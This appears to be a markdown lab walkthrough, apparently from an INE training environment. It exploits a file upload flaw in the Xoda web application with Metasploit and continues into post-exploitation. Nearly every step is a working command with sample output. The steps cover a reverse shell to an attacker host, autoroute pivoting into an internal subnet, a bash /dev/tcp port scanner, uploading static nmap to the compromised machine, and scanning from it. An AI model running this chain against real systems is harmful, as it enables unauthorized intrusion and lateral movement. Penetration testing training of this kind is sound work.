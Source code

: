 # 📦 Metasploit - Xoda File Upload Exploit & Post-Exploitation

This walkthrough shows how to exploit a vulnerable **Xoda web application** with Metasploit, gain a shell, pivot into an internal network, and use custom port scanning tools.

---

## 🎯 Steps Overview
1. Exploit the vulnerable web app (Xoda File Upload)  
2. Gain shell access  
3. Add routes for pivoting  
4. Scan internal network with Metasploit & custom tools  
5. Upload & execute static binaries  

---

## 1. Exploit Xoda File Upload
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```

📸 **Sample Output:**
```
[*] Started reverse TCP handler on 192.63.4.2:4444
[*] Sending exploit...
[*] Command shell session 1 opened
```

🔍 **Interpretation:**
- Exploit uploads a malicious file to the vulnerable app.  
- Reverse shell successfully opened (Session 1).  

---

## 2. Interact with Shell
```bash
shell
ip addr
```

📸 **Sample Output:**
```
inet 192.180.108.2/24 brd 192.180.108.255 scope global eth0
```

🔍 **Interpretation:**
- Target machine has IP `192.180.108.2`.  
- Confirms internal network presence.  

---

## 3. Add Route for Pivoting
```bash
run autoroute -s 192.180.108.2
```

📸 **Sample Output:**
```
Route added to subnet 192.180.108.0/255.255.255.0
```

🔍 **Interpretation:**
- Traffic to the internal subnet will now be routed through the compromised host.  
- Enables pivoting deeper into the network.  

---

## 4. TCP Port Scan from Metasploit
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set VERBOSE false
set PORTS 1-1000
exploit
```

📸 **Sample Output:**
```
Discovered open port 22/tcp on 192.180.108.3
Discovered open port 80/tcp on 192.180.108.3
```

🔍 **Interpretation:**
- Found SSH (22) and HTTP (80) open.  
- Indicates live services inside the pivoted network.  

---

## 5. Locate Static Nmap Binary
```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

📸 **Sample Output:**
```
-rwxr-xr-x 1 root root 2500000 Apr 10  nmap
nmap: ELF 64-bit LSB executable, statically linked
```

🔍 **Interpretation:**
- Found precompiled static **Nmap binary**.  
- Useful when target does not have Nmap installed.  

---

## 6. Custom Bash Port Scanner
```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

📸 **Sample Output:**
```
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Simple Bash script to scan ports without Nmap.  
- Uses `/dev/tcp` to test connectivity.  

---

## 7. Interact with Session
```bash
sessions -i 1
```

📌 Goes back into the compromised session to continue post-exploitation.  

---

## 8. Upload Tools
```bash
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

📸 **Sample Output:**
```
[*] Uploading nmap -> /tmp/nmap
[*] Uploading bash-port-scanner.sh -> /tmp/bash-port-scanner.sh
```

🔍 **Interpretation:**
- Both Nmap binary and custom scanner uploaded to `/tmp/` on target.  

---

## 9. Execute Tools on Target
```bash
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```

📸 **Sample Output:**
```
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Verified the Bash script works from inside the compromised target.  

---

## 10. Run Nmap on Target
```bash
./nmap -p- 192.180.108.3
```

📸 **Sample Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
```

🔍 **Interpretation:**
- Full Nmap scan shows ports 22, 80, and 443 are open.  
- Confirms target services for further exploitation.  

